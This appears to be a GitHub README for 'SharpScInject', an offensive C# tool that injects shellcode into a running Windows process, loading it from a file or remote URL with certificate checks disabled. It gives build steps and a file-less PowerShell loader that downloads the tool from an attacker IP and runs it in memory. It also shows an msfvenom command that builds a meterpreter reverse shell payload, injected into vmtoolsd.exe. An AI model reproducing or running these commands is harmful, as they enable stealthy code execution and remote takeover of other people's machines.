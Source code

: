 # Sharp Shell Code Inject
Inject the shellcode from local file or remote.
The https certificate for the request is ignored.
(No need high priv!)

## Build
```
sudo apt install -y mono-complete
mcs /reference:System.Net.Http SharpScInject.cs
```

## Usage
```
SharpScInject.exe <PID or process_name> <Shell Code PATH / URL>
```


File-less invoke
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ;
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.20/SharpScInject.exe')
$argument = "5278 http://10.10.16.20/a.raw"
$assem = [System.Reflection.Assembly]::Load($data)
$method = $assem.Entrypoint
$argu= New-Object -TypeName System.Collections.ArrayList
$strings = $argument.Split(" ")
$argu.Add($strings)
$method.Invoke($null, $argu.ToArray())
```
## example
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.20  LPORT=443 -f raw -o a.raw
.\SharpScInject.exe vmtoolsd.exe http://10.10.16.20/a.raw
```
